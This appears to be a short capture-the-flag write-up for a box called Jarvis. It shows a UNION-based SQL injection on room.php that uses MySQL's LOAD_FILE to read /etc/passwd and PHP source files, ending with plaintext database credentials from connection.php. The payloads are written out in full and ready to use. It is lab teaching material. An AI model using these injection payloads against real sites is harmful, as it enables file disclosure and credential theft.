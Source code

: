 # Alternative way to exploit Jarvis

## Getting the Credentials

Instead of extracting the password hash of _DBadmin_ from the database and then cracking it, there is another way to get the credentials.
**MySQL** has a feature called _LOAD_FILE_ which can read files from the server.

Reading _/etc/passwd_:
```markdown
GET /room.php?cod=123+union+select+1,2,(LOAD_FILE("/etc/passwd")),4,5,6,7
```

This means it is possible to read the source code of the PHP files:
```markdown
GET /room.php?cod=123+union+select+1,2,(LOAD_FILE("/var/www/html/room.php")),4,5,6,7
```

In this PHP file the _connection.php_ is included, so the source code of that can be read:
```markdown
GET /room.php?cod=123+union+select+1,2,(LOAD_FILE("/var/www/html/connection.php")),4,5,6,7
```

In this PHP file, the credentials are found in plaintext:
```markdown
$connection=new mysqli('127.0.0.1','DBadmin','imissyou','hotel');
(...)
```
